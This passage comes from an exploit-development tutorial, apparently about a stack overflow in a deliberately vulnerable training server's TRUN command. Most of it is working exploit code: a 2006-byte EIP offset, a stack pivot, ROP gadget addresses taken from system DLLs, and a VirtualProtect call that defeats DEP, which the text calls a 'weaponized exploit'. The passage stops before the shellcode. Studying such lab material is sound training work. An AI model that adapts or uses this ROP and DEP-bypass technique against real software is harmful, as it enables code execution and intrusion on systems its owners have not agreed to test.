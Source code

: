 We will update it to the following, to make it 100 bytes greater, and land around our shellcode:

```python
---
# Increase EAX, which contains old ESP, to equal around the address of shellcode
# Determine how far shellcode is away, and add that difference into EAX, because
# EAX is being used for calculations
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget---
---
```
ROP gadgets for decrementing ECX, moving ECX into EAX, and exchanging EAX with ESP:

```
0x77e4a5e6: mov eax, ecx ; ret  ; kernel32.dll
0x41ac863b: dec eax ; dec eax ; ret  ;  WS2_32.dll
0x77d6fa6a: xchg eax, esp ; ret  ;  ntdll.dll
```

After all of the changes have been made, this is the final weaponized exploit has been created:

```python
import struct
import sys
import os


import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
```